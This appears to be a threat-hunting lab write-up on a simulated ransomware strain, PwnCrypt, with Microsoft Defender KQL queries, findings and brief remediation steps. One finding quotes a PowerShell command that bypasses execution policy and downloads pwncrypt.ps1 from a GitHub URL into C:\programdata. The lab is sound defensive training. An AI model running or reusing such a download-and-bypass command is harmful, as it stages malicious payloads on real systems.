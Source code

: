 # Zero-Day-Ransomware-PwnCrypt-Outbreak
Scenario
A new ransomware strain named PwnCrypt has been reported in the news, leveraging a PowerShell-based payload to encrypt files on infected systems. The payload, using AES-256 encryption, targets specific directories such as the C:\Users\Public\Desktop, encrypting files and prepending a .pwncrypt extension to the original extension. For example, hello.txt becomes hello.pwncrypt.txt after being targeted with the ransomware. The CISO is concerned with the new ransomware strain being spread to the corporate network and wishes to investigate.

Data Collection
Inspect DeviceFileEvents logs in MS Defender for .pwncrpyt string

let suspectDevice = "windows10vm";
DeviceFileEvents
| where DeviceName == suspectDevice
| where FileName contains "pwncrypt"
| order by Timestamp desc
| summarize by Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine

<img width="1621" height="663" alt="スクリーンショット 2025-08-05 11 04 54" src="https://github.com/user-attachments/assets/367446b4-c874-470f-8551-f09ae8f0df43" />

Findings
- Files appended with .pwncrypt indicate the ransomeware has spread to our systems
- Initiating process confirms PowerShell-based script at C:\programdata\pwnscript.ps1 using -ExecutionPolicy Bypass

Inspect DeviceNetworkEvents for any "Invoke-WebRequest" 

let suspectDevice = "windows10vm";
DeviceNetworkEvents
| where DeviceName == suspectDevice and InitiatingProcessCommandLine contains "Invoke-WebRequest"
| summarize by Timestamp, DeviceName, RemoteUrl, InitiatingProcessFileName, InitiatingProcessCommandLine

<img width="1651" height="521" alt="image" src="https://github.com/user-attachments/assets/06e49924-f2ec-4816-b298-04dc301d8a20" />

Findings
- Confirmed command line run by "labuser" to callout to github and save file locally. "pwncrypt.ps1 to C:\programdata "powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1"







Remediate
- Block all traffic to malicious URI
- Remove pwncrypt.ps1 and kill related processes
- 

